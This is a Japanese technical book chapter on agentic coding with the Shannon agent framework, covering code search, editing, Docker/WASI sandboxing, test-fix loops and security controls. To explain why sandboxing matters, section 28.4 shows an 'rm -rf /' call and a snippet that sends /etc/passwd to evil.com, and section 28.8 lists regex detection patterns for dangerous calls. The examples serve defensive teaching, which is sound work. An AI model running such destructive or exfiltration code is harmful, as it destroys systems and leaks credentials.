


# 第 28 章：Agentic Coding

> **Agentic Coding はコード補完のアップグレード版じゃない。エージェントが開発者みたいにコードベースを理解し、実装を計画し、コードを書き、テストを実行し、バグを直す。現在のファイルだけじゃなく、コードベース全体の構造を理解する必要がある。これが本当の「自律プログラミング」であり、サンドボックスセキュリティの究極の試練でもある。**

---

> **5 分で核心をつかむ**
>
> 1. 「今の行を補完」から「コードベース全体を理解」へ。核心的な違いはグローバルなコンテキスト
> 2. コード理解の三種の神器：AST 構造解析、依存グラフ構築、セマンティック検索
> 3. すべてのコード実行はサンドボックス内で。WASI がファイル/ネットワーク/プロセスの分離を提供
> 4. Edit-Test-Fix ループ：コードを変更 → テスト実行 → 失敗を見る → また修正
> 5. セキュリティ境界は絶対：書き込み操作はディレクトリ制限必須、実行はタイムアウト必須
>
> **10 分パス**：28.1-28.2 → 28.4 → Shannon Lab

---

深夜 2 時、アラートで叩き起こされた。

本番環境の API レスポンス時間が爆増してる。パソコンを開くと、直近のデプロイで入ったパフォーマンス問題だと分かった。問題は一つの関数に特定できたけど、修正には他の 3 モジュールとの連携を理解する必要がある。半分寝ぼけながらコードを直して、テストを走らせたら、別の機能が壊れてた...

ここで想像してみよう。エージェントに「この API 遅すぎるから、最適化して」と言うだけで、こうなったら：
1. 呼び出しチェーン全体を分析して、パフォーマンスのボトルネックを見つける
2. 関連モジュールの依存関係を理解する
3. 修正コードを生成する
4. サンドボックスでテストを実行して修正の有効性を確認
5. PR を出して、変更内容の詳細な説明を添付

これが Agentic Coding のビジョンだ。1行のコードを補完するんじゃなく、開発タスク全体を完遂する。

まあ、ビジョンはビジョン。現実ではこれ、めちゃくちゃ難しい。コードは孤立したテキストじゃない。構造があり、依存があり、副作用がある。エージェントが書いたコードは動く必要があり、正しく動く必要があり、しかもシステムを壊しちゃいけない。

この章では、Agentic Coding の核心的な課題と実装パスを分解していく。

---

## 28.1 Agentic Coding とは何か

### コード補完から自律プログラミングへ

まず誤解を解いておこう。Agentic Coding は Copilot のアップグレード版じゃない。

| 次元 | コード補完（Copilot） | Agentic Coding |
|------|----------------------|----------------|
| 適用範囲 | 現在のカーソル位置 | コードベース全体 |
| コンテキスト理解 | 現在のファイル | ファイル間の依存関係 |
| 決定権 | 人間が何を書くか決める | エージェントが何を書くか決める |
| 実行能力 | なし | コード実行、テスト可能 |
| イテレーション能力 | なし | フィードバックに基づいて修正可能 |

コード補完は「君が考えて、そこまで打ってくれる」。Agentic Coding は「君が欲しいものを言って、それを実装してくれる」。

完全な Agentic Coding のフロー：



### 核心能力の分解

Agentic Coding には以下の能力の協調が必要：

| 能力 | 説明 | 対応ツール |
|------|------|----------|
| **コード理解** | コード構造、依存関係を解析 | AST 分析、セマンティック検索 |
| **コードナビゲーション** | ファイル間ジャンプ、定義検索 | LSP、grep/ripgrep |
| **コード生成** | 新コード作成、既存コード修正 | LLM + 編集ツール |
| **コード実行** | 隔離環境でコードを実行 | Docker/WASI サンドボックス |
| **テスト検証** | テスト実行、結果分析 | テストフレームワーク統合 |
| **バージョン管理** | コード変更を管理 | Git 操作 |

---

## 28.2 コードベース理解：ファイルを読むだけじゃない

Agentic Coding の第一歩はコードベースの理解。これ、簡単に聞こえるけど、実は最も難しい部分の一つ。

### なぜ難しいのか？

中規模のコードベースでも：
- 10,000 ファイル以上
- 500,000 行以上のコード
- 複雑なモジュール依存関係
- 暗黙の呼び出しチェーン

コードベース全体を LLM のコンテキストウィンドウに詰め込むことはできない（1M tokens あっても足りない）。関連コードを戦略的に選ぶ必要がある。

### コードインデックス戦略

Shannon では、ファイル操作ツールに明確な読み取り制限とスコープ制御がある：

```python
# python/llm-service/llm_service/tools/builtin/file_ops.py より抜粋

class FileReadTool(Tool):
    """Safe file reading tool with sandboxing support"""

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="path",
                type=ToolParameterType.STRING,
                description="Path to the file to read",
                required=True,
            ),
            ToolParameter(
                name="max_size_mb",
                type=ToolParameterType.INTEGER,
                description="Maximum file size in MB to read",
                required=False,
                default=10,
                min_value=1,
                max_value=100,
            ),
        ]

    async def _execute_impl(self, **kwargs) -> ToolResult:
        # ... バリデーションロジック省略 ...

        # 読み取り可能なディレクトリのホワイトリスト
        allowed_dirs = [Path("/tmp").resolve(), Path.cwd().resolve()]
        workspace = os.getenv("SHANNON_WORKSPACE")
        if workspace:
            allowed_dirs.append(Path(workspace).resolve())

        # パスが許可ディレクトリ内にあることを確認
        if not any(_is_allowed(path_absolute, base) for base in allowed_dirs):
            return ToolResult(
                success=False,
                output=None,
                error=f"Reading {path_absolute} is not allowed. Use workspace or /tmp directory.",
            )
```

コア設計のポイント：
- `max_size_mb` 制限：巨大ファイルの一括読み込みを防止
- `allowed_dirs` ホワイトリスト：ワークスペースと一時ディレクトリのみ読み取り許可
- パス正規化：シンボリックリンクによる脱出を防止

### セマンティック検索 vs キーワード検索

関連コードを見つけるには 2 つの方法がある：

| 方式 | 適用シナリオ | 限界 |
|------|------------|------|
| **キーワード検索**（grep） | 関数名、変数名、エラーメッセージを探す | 「意図的に関連する」コードは見つからない |
| **セマンティック検索**（embedding） | 「ユーザー認証を処理するコード」を探す | 事前にベクトルインデックスの構築が必要 |

ベストプラクティスは両者の組み合わせ：

```python
# 概念示例：ハイブリッド検索戦略

class CodeSearcher:
    """コードベース検索器"""

    def search(self, query: str) -> List[CodeChunk]:
        # 1. 可能な識別子を抽出
        identifiers = self.extract_identifiers(query)

        # 2. キーワード検索（高速、精確）
        keyword_results = []
        for ident in identifiers:
            keyword_results.extend(self.grep_search(ident))

        # 3. セマンティック検索（低速、ファジー）
        semantic_results = self.vector_search(query)

        # 4. マージして重複排除、関連度でソート
        return self.merge_and_rank(keyword_results, semantic_results)
```

### 依存グラフ構築

コードを理解するにはファイルを見つけるだけじゃなく、モジュール間の依存関係を理解する必要がある：

```python
# 概念示例：依存関係分析

class DependencyAnalyzer:
    """モジュール間の依存関係を分析"""

    def build_dependency_graph(self, entry_file: str) -> DependencyGraph:
        """エントリファイルから依存グラフを構築"""
        graph = DependencyGraph()
        visited = set()

        def visit(file_path: str):
            if file_path in visited:
                return
            visited.add(file_path)

            # ファイルを解析、import/require 文を抽出
            imports = self.parse_imports(file_path)

            for imp in imports:
                resolved = self.resolve_import(file_path, imp)
                if resolved:
                    graph.add_edge(file_path, resolved)
                    visit(resolved)

        visit(entry_file)
        return graph

    def find_affected_files(self, modified_file: str) -> List[str]:
        """あるファイルの修正が影響する可能性のあるすべてのファイルを見つける"""
        return self.graph.get_dependents(modified_file)
```

---

## 28.3 コード生成と編集

### 2 つの編集モード

エージェントがコードを修正する方法は 2 つある：

| モード | 説明 | 適用シナリオ | リスク |
|--------|------|------------|--------|
| **全文書き換え** | 完全なファイルを生成して元ファイルを置換 | 新規ファイル、小さいファイル | 無関係な変更を失う可能性 |
| **精密編集** | 特定の行/ブロックのみ修正 | 大きいファイル、局所的な修正 | 正確な位置特定が必要 |

Shannon のファイル書き込みツールは安全な上書きモードを採用：

```python
# python/llm-service/llm_service/tools/builtin/file_ops.py より抜粋

class FileWriteTool(Tool):
    """Safe file writing tool with sandboxing support"""

    def _get_metadata(self) -> ToolMetadata:
        return ToolMetadata(
            name="file_write",
            description="Write content to a file",
            requires_auth=True,  # 書き込みには認証が必要
            sandboxed=True,
            dangerous=True,  # ファイル書き込みは潜在的に危険
            cost_per_use=0.001,
        )

    def _get_parameters(self) -> List[ToolParameter]:
        return [
            ToolParameter(
                name="mode",
                type=ToolParameterType.STRING,
                description="Write mode: 'overwrite' replaces existing file, 'append' adds to end",
                required=False,
                default="overwrite",
                enum=["overwrite", "append"],
            ),
            ToolParameter(
                name="create_dirs",
                type=ToolParameterType.BOOLEAN,
                description="Create parent directories if they don't exist",
                required=False,
                default=False,
            ),
        ]
```

重要なマーカーに注目：
- `requires_auth=True`：ファイル書き込みには承認が必要
- `dangerous=True`：ファイル書き込みは潜在的に危険な操作
- `sandboxed=True`：サンドボックスディレクトリ内に制限

### 精密編集の課題

エージェントが大きなファイルの数行を修正する必要があるとき、以下の問題が起きやすい：

1. **行番号のドリフト**：前に他の修正があると、行番号がずれる
2. **コンテキストの不一致**：エージェントの記憶内のコードと実際のファイルが同期していない
3. **インデントエラー**：生成されたコードのインデントが元ファイルと一致しない

解決策：行番号じゃなくアンカーを使う：

```python
# 概念示例：アンカーベースの精密編集

class CodeEditor:
    """アンカーベースのコードエディタ"""

    def apply_edit(
        self,
        file_path: str,
        anchor_before: str,  # 修正位置の前のユニークなテキスト
        anchor_after: str,   # 修正位置の後のユニークなテキスト
        new_content: str,    # 新しい内容
    ) -> EditResult:
        """
        アンカー間にコンテンツを挿入/置換

        例：
        anchor_before = "def calculate_total("
        anchor_after = "    return total"
        new_content = "    # Add validation\n    if not items:\n        return 0\n"
        """
        content = self.read_file(file_path)

        # アンカー位置を見つける
        start = content.find(anchor_before)
        end = content.find(anchor_after)

        if start == -1 or end == -1:
            return EditResult(success=False, error="Anchor not found")

        # 編集を適用
        new_content = (
            content[:start + len(anchor_before)]
            + new_content
            + content[end:]
        )

        return self.write_file(file_path, new_content)
```

---

## 28.4 サンドボックス実行：最も重要なセキュリティレイヤー

エージェントが生成したコードは隔離環境で実行しなきゃいけない。これはオプションじゃない。必須だ。

### なぜサンドボックスが必要か？

エージェントがこんなコードを生成したとする：

```python
import os
os.system("rm -rf /")  # ファイルシステム全体を削除
```

あるいはもっと狡猾に：

```python
import requests
data = open("/etc/passwd").read()
requests.post("https://evil.com/collect", data=data)
```

サンドボックスがなければ、これらのコードは君のサーバーで本当に実行される。

### サンドボックスの選択

| 技術 | 分離レベル | 起動速度 | 複雑度 | 適用シナリオ |
|------|----------|---------|--------|------------|
| **Docker** | プロセス級 | 秒オーダー | 中 | 汎用シナリオ |
| **WASI** | バイトコード級 | ミリ秒オーダー | 高 | 信頼できるコード |
| **gVisor** | システムコール級 | 秒オーダー | 高 | 高セキュリティ要件 |
| **Firecracker** | 仮想マシン級 | 100ミリ秒オーダー | 中 | 本番環境 |

Shannon はアーキテクチャドキュメントで説明されているように、WASI を主要なサンドボックス機構として選択している。WASI の利点は：
- 超高速起動（ミリ秒オーダー）
- 細粒度のケイパビリティ制御（ファイルシステム、ネットワーク、時間など）
- リソース消費が少ない

### Docker サンドボックス実装

汎用シナリオでは、Docker が最も実装しやすい選択肢：

```python
# 概念示例：Docker サンドボックス実行

import docker
import tempfile
import os

class DockerSandbox:
    """Docker サンドボックス実行器"""

    def __init__(self):
        self.client = docker.from_env()

    async def execute(
        self,
        code: str,
        language: str,
        timeout_seconds: int = 30,
        memory_limit: str = "256m",
        network_disabled: bool = True,
    ) -> ExecutionResult:
        """Docker サンドボックス内でコードを実行"""

        # 1. 一時作業ディレクトリを作成
        with tempfile.TemporaryDirectory() as work_dir:
            # 2. コードファイルを書き込み
            code_file = os.path.join(work_dir, f"main.{self._get_extension(language)}")
            with open(code_file, "w") as f:
                f.write(code)

            # 3. イメージとコマンドを選択
            image, cmd = self._get_runtime(language)

            # 4. コンテナを実行
            try:
                container = self.client.containers.run(
                    image=image,
                    command=cmd,
                    volumes={work_dir: {"bind": "/workspace", "mode": "rw"}},
                    working_dir="/workspace",
                    mem_limit=memory_limit,
                    network_disabled=network_disabled,  # ネットワーク無効化
                    read_only=True,  # 読み取り専用ファイルシステム
                    detach=True,
                    user="nobody",  # 非 root ユーザー
                )

                # 5. 完了を待って出力を取得
                result = container.wait(timeout=timeout_seconds)
                logs = container.logs().decode("utf-8")

                return ExecutionResult(
                    success=result["StatusCode"] == 0,
                    output=logs,
                    exit_code=result["StatusCode"],
                )

            except docker.errors.ContainerError as e:
                return ExecutionResult(
                    success=False,
                    output=str(e),
                    exit_code=-1,
                )
            finally:
                try:
                    container.remove(force=True)
                except:
                    pass
```

重要なセキュリティ設定：
- `network_disabled=True`：ネットワークアクセス禁止
- `read_only=True`：読み取り専用ファイルシステム
- `mem_limit`：メモリ制限
- `user="nobody"`：非特権ユーザー

---

## 28.5 テスト駆動のイテレーションループ

Agentic Coding は一度生成して終わりじゃない。エージェントはテストを実行し、エラーを分析し、イテレーション修正する必要がある。

### テスト修正ループ



### エラー分析と修正

エージェントはテスト失敗の原因を理解できる必要がある：

```python
# 概念示例：テストエラー分析

class TestErrorAnalyzer:
    """テストエラーを分析し、修正提案を生成"""

    def analyze(self, test_output: str, code_context: str) -> ErrorAnalysis:
        """テスト出力を分析し、修正提案を生成"""

        # 1. エラータイプと場所を抽出
        error_info = self.parse_error(test_output)

        # 2. LLM プロンプトを準備
        prompt = f"""
以下のテスト失敗を分析し、修正方法を提供してください。

## テスト出力
{test_output}

## 関連コード
{code_context}

## エラー情報
タイプ: {error_info.type}
場所: {error_info.location}
メッセージ: {error_info.message}

分析してください：
1. 根本原因は何か？
2. どのファイルのどの部分を修正する必要があるか？
3. 具体的な修正コードは？

出力フォーマット (JSON):
{{
    "root_cause": "エラーの根本原因分析",
    "affected_files": ["file1.py", "file2.py"],
    "fixes": [
        {{
            "file": "file1.py",
            "anchor_before": "def problematic_function(",
            "anchor_after": "return result",
            "new_code": "修正後のコード"
        }}
    ],
    "confidence": 0.85
}}
"""
        # 3. LLM を呼び出し
        response = await self.llm.generate(prompt)
        return self.parse_analysis(response)
```

### 無限ループの防止

エージェントは「A を直したら B が壊れて、B を直したらまた A が壊れる」というループにはまることがある。

```python
# 概念示例：修正ループ検出

class FixLoopDetector:
    """修正ループを検出"""

    def __init__(self, max_iterations: int = 5):
        self.max_iterations = max_iterations
        self.fix_history: List[str] = []

    def should_continue(self, current_fix: str) -> bool:
        """修正を続けるべきか判断"""

        # 1. 最大イテレーション回数を超過
        if len(self.fix_history) >= self.max_iterations:
            return False

        # 2. 類似の修正を検出（ループの可能性）
        fix_hash = self.hash_fix(current_fix)
        if fix_hash in [self.hash_fix(f) for f in self.fix_history[-3:]]:
            # 直近 3 回の修正に類似がある、ループの可能性
            return False

        self.fix_history.append(current_fix)
        return True
```

---

## 28.6 バージョン管理統合

Agentic Coding の成果物は通常 Git commit か Pull Request。

### Commit Message の自動生成

エージェントはコード変更に基づいて意味のある commit message を生成できるべき：

```python
# 概念示例：commit message 生成

async def generate_commit_message(diff: str, task_description: str) -> str:
    """コード変更に基づいて commit message を生成"""

    prompt = f"""
以下のコード変更に基づいて Git commit message を生成してください。

## タスク説明
{task_description}

## コード変更 (git diff)
{diff[:4000]}  # 長さを制限

## 要件
1. Conventional Commits フォーマットを使用 (feat/fix/refactor/...)
2. 1 行目は 72 文字以内
3. 「何をしたか」じゃなく「なぜしたか」を記述
4. breaking changes があれば footer に記載

commit message を出力：
"""
    return await llm.generate(prompt)
```

### Pull Request の作成

完全なコード変更は PR 経由で提出して、人間がレビューできるようにすべき：

```python
# 概念示例：PR 作成

class PRCreator:
    """Pull Request を作成"""

    async def create_pr(
        self,
        repo: str,
        branch: str,
        title: str,
        changes: List[FileChange],
        tests_passed: bool,
    ) -> PRResult:
        """PR を作成し、詳細な説明を添付"""

        # 1. ブランチを作成して変更をコミット
        await self.git.create_branch(branch)
        for change in changes:
            await self.git.apply_change(change)
        await self.git.commit(await self.generate_commit_message())
        await self.git.push(branch)

        # 2. PR 説明を生成
        description = await self.generate_pr_description(
            changes=changes,
            tests_passed=tests_passed,
        )

        # 3. PR を作成
        pr = await self.github.create_pull_request(
            title=title,
            body=description,
            head=branch,
            base="main",
        )

        return PRResult(pr_url=pr.url, pr_number=pr.number)
```

---

## 28.7 マルチモデル協調

複雑なコーディングタスクでは、異なるモデルの協調が必要なことがある。

### モデルの分担

Shannon のモデル設定は、異なるモデルのポジショニングを示している：

```yaml
# config/models.yaml より抜粋
model_capabilities:
  coding_specialists:
    - codestral-22b-v0.1      # コーディングに特化したモデル
    - deepseek-v3.2           # コード能力が強い
    - claude-sonnet-4-5-20250929  # 汎用+コード
    - gpt-5-pro-2025-08-07    # 重推論
    - gpt-5.1                 # 最強汎用
```

異なるタスクに異なるモデルを使える：

| タスクタイプ | 推奨モデル層 | 理由 |
|------------|------------|------|
| コード検索/ナビゲーション | Small | 複雑な推論は不要 |
| 単純なコード生成 | Medium（コーディング特化） | 専門的に最適化 |
| アーキテクチャ設計/リファクタリング | Large（推論） | 深い思考が必要 |
| テストケース生成 | Medium | パターン化された作業 |
| バグ分析 | Large | 複雑な相互作用の理解が必要 |

### ルーティング戦略

```python
# 概念示例：コーディングタスクのモデルルーティング

class CodingModelRouter:
    """タスクタイプに基づいてモデルを選択"""

    def select_model(self, task_type: str, code_complexity: str) -> str:
        routing_rules = {
            # (タスクタイプ, 複雑度) -> モデル層
            ("search", "any"): "small",
            ("generate", "simple"): "medium",
            ("generate", "complex"): "large",
            ("refactor", "any"): "large",
            ("test_gen", "any"): "medium",
            ("bug_fix", "simple"): "medium",
            ("bug_fix", "complex"): "large",
        }

        tier = routing_rules.get(
            (task_type, code_complexity),
            routing_rules.get((task_type, "any"), "medium")
        )

        return self.get_model_for_tier(tier)
```

---

## 28.8 セキュリティ考慮事項

Agentic Coding はコード実行を伴い、セキュリティリスクが極めて高い。

### リスクマトリックス

| リスク | 説明 | 重大度 | 緩和策 |
|--------|------|--------|--------|
| **コードインジェクション** | エージェントが悪意のあるコードを生成 | 高 | サンドボックス実行 |
| **データ漏洩** | コードが機密データを読み取って外部に送信 | 高 | ネットワーク分離 |
| **リソース枯渇** | 無限ループでリソースを消費 | 中 | タイムアウトとリソース制限 |
| **サプライチェーン攻撃** | 悪意のある依存関係をインストール | 高 | 依存関係ホワイトリスト |
| **権限昇格攻撃** | 脆弱性を悪用してより高い権限を取得 | 高 | 最小権限原則 |

### 機密操作には承認が必要

```python
# 概念示例：機密操作検出

SENSITIVE_PATTERNS = [
    r"os\.system",
    r"subprocess\.",
    r"eval\(",
    r"exec\(",
    r"__import__",
    r"open\([^)]*['\"](\/etc|\/root|\/home)",
    r"requests\.(get|post|put|delete)",
    r"socket\.",
    r"rm\s+-rf",
    r"DROP\s+TABLE",
]

def check_code_safety(code: str) -> List[SecurityWarning]:
    """コード内の潜在的に危険な操作をチェック"""
    warnings = []

    for pattern in SENSITIVE_PATTERNS:
        matches = re.findall(pattern, code, re.IGNORECASE)
        if matches:
            warnings.append(SecurityWarning(
                pattern=pattern,
                matches=matches,
                risk_level="high",
            ))

    return warnings
```

### 人間の承認ポイント

特定の操作は人間の承認を経なければならない：

```python
# 概念示例：人間の承認が必要な操作

REQUIRES_APPROVAL = [
    "modify_production_config",  # 本番設定の修正
    "delete_files",              # ファイル削除
    "install_dependencies",      # 新しい依存関係のインストール
    "modify_security_rules",     # セキュリティルールの修正
    "access_secrets",            # シークレットへのアクセス
]

async def execute_with_approval(operation: str, details: dict) -> bool:
    """承認が必要な操作を実行"""

    if operation in REQUIRES_APPROVAL:
        approval = await request_human_approval(
            operation=operation,
            details=details,
            risk_assessment=assess_risk(operation, details),
        )

        if not approval.approved:
            return False

    return await execute_operation(operation, details)
```

---

## 28.9 よくある落とし穴

### 落とし穴 1：コンテキストウィンドウ溢れ

エージェントがコードベース全体をプロンプトに詰め込もうとする。

```python
# ダメ：全ファイルを読み込む
all_code = ""
for file in repo.get_all_files():
    all_code += read_file(file)  # コンテキスト制限を超える可能性

# 良い：必要に応じて関連コードを検索
relevant_files = search_relevant_code(task_description)
context = summarize_large_files(relevant_files[:10])
```

### 落とし穴 2：テスト汚染

エージェントがテストデータやテスト自体を修正して、テストが「通る」けど実際のコードに問題がある。

```python
# 解決策：テスト環境の分離

class TestIsolation:
    def run_tests(self, code_changes: List[Change]) -> TestResult:
        # 1. 分離されたテスト環境を作成
        with TemporaryTestEnvironment() as env:
            # 2. コード変更を適用（テストファイルは除く）
            for change in code_changes:
                if not self.is_test_file(change.file):
                    env.apply_change(change)

            # 3. オリジナルのテストファイルを使用
            env.copy_tests_from_main()

            # 4. テストを実行
            return env.run_tests()
```

### 落とし穴 3：依存関係地獄

エージェントが依存関係を好き勝手に追加して、依存関係の競合やセキュリティ問題が発生。

```python
# 解決策：依存関係ホワイトリスト

APPROVED_DEPENDENCIES = {
    "python": ["requests", "numpy", "pandas", ...],
    "javascript": ["lodash", "axios", ...],
}

def validate_dependency(language: str, package: str) -> bool:
    if package not in APPROVED_DEPENDENCIES.get(language, []):
        raise DependencyNotApproved(
            f"Package '{package}' not in approved list. "
            f"Request approval before adding."
        )
    return True
```

### 落とし穴 4：Git 状態の混乱

エージェントが dirty な Git 状態で操作して、変更が混乱する。

```python
# 解決策：操作前にクリーンな状態を確保

async def ensure_clean_state():
    status = await git.status()
    if status.has_changes:
        # 現在の変更を stash
        await git.stash()
        return GitStateGuard(stashed=True)
    return GitStateGuard(stashed=False)

# 使い方
async with ensure_clean_state():
    await agent.apply_changes()
```

---

## 28.10 まとめ

1. **Agentic Coding の定義**：コード補完じゃなく、エンドツーエンドの自律プログラミング能力
2. **コードベース理解**：キーワード検索とセマンティック検索を組み合わせ、必要に応じて関連コードを検索
3. **サンドボックス実行**：エージェントが生成したコードは隔離環境で実行必須、Docker か WASI
4. **テスト駆動イテレーション**：テスト実行、エラー分析、コード修正のループ
5. **多層セキュリティ**：コードレビュー、機密操作の承認、リソース制限

---

## Shannon Lab（10 分で始める）

このセクションで、本章の概念を Shannon ソースコードにマッピングしよう。

### 必読（1 ファイル）

- `python/llm-service/llm_service/tools/builtin/file_ops.py`：ファイル読み書きツールのサンドボックス設計

### 選読（2 つ、興味に応じて）

- `config/models.yaml` の `coding_specialists`：コーディング能力に特化したモデルを確認
- `docs/multi-agent-workflow-architecture.md`：Coding Agent をマルチエージェントシステムに統合する方法を理解

---

## 練習問題

### 練習 1：依存関係チェッカーの設計

エージェントが新しい依存関係をインストールしようとするときのシステムを設計しよう：
1. 依存関係がホワイトリストにあるかチェック
2. 依存関係のセキュリティ評価をチェック（snyk や npm audit を使える）
3. ホワイトリストにない場合、人間の承認をリクエスト

### 練習 2：コード検索の実装

ハイブリッド検索器を実装しよう。サポートするのは：
1. キーワード検索（grep）
2. 関数/クラス名検索（AST）
3. セマンティック検索（embedding）

クエリ「ユーザーログインを処理するコードを見つける」に対する検索戦略を設計せよ。

### 練習 3（応用）：テスト分離

テスト分離システムを設計しよう：
1. エージェントはソースコードのみ修正可能、テストコードは修正不可
2. テストは分離環境で実行、独自のデータベース/ファイルシステムを持つ
3. エージェントがテストデータを修正してテストを「通す」ことを防止

---

## さらなる学習

- **Docker SDK for Python** - https://docker-py.readthedocs.io/
- **Tree-sitter**（コード解析）- https://tree-sitter.github.io/
- **Aider**（オープンソース AI プログラミングツール）- https://aider.chat/

---

## 次章の予告

Agentic Coding は通常、ユーザーが開始するインタラクティブなタスクだ。でも、プログラミングタスクの中には定期実行やバックグラウンド実行が必要なものもある。

次章は **Background Agents**。エージェントをバックグラウンドで継続的に実行させ、定期タスク、監視アラート、自動修復を処理する。

ユーザーがオンラインじゃなくても、エージェントは働ける。でもこれは新しい課題をもたらす。人間がリアルタイムで監視していないのに、エージェントの行動を制御可能にするにはどうする？ 8 時間動いた後に問題が起きたら、どう追跡して復旧する？

さらに、バックグラウンドタスクは状態の永続化が必要。サービスが再起動しても、タスクは失われちゃいけない。これにはワークフローエンジンが必要だ。

次章では、Shannon が Temporal を使って信頼性の高いバックグラウンドエージェントをどう実装しているか見ていこう。

準備はいい？ 先に進もう。
